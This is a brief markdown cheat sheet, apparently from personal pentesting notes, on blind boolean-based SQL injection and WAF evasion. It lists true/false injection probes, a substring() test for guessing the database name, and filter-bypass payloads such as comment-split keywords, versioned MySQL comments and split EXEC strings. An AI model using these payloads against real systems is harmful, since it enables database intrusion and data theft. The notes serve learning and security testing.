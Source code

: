 # Blind Boolean based SQL & Evasion Techniques

## Blind Boolean based SQL

* 11' and 'N' = 'N TRUE
* 11' and 'N'= 'A False
* substring('Ahmed'.1.1)='A' => True

```
select substring(database(),1,1)='d'
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Evasion Techniques

* WAF
  * ' or 1-1 --+&#x20;
    * or 2>1
    * 'or 'hacktor'>'a'
  * '/\*!<mark style="color:red;">**12345**</mark>order\*/by 7#
  * url encode,hex etc..
  * EXEC('sele','ct')
  * "UNION       SELECT"
  * '/\*\***/or/\*\*/1/\*\*/=/\*\*/1/\*\*/**
  * **Hackbar => Cyberfox**
